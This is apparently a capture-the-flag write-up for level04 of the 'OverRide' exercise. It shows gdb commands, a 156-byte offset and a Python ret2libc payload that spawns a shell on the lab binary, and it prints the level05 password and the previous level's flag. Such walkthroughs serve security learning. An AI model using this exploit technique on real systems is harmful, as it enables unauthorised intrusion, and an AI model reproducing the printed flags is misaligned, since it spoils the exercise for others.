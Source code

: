 # Write up

We download the binary : `scp -P 4242 level04@192.168.43.94:level04 level04` and disassemble it for translation.
On the translated code, we notice a pointed called by gets 144 bytes before the stack top, we search the offset by
incrementing by 4 bytes and find that for 156 bytes we have an interesting result :
```
level04@OverRide:~$ python -c "print 'A' * 156" | ./level04
Give me some shellcode, k
Give me some shellcode, k

```
Like the level02 we use a ret2libC exploit to make it easy :
```
(gdb) print &system
$1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) find &system, +9999999, "/bin/sh"
0xf7f897ec
```
Then we exec our payload :
```
(python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + 'LIDL' + '\xec\x97\xf8\xf7'"; cat) | ./level04
```
Which gives us our shell.
```
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

(Previous flag : kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf)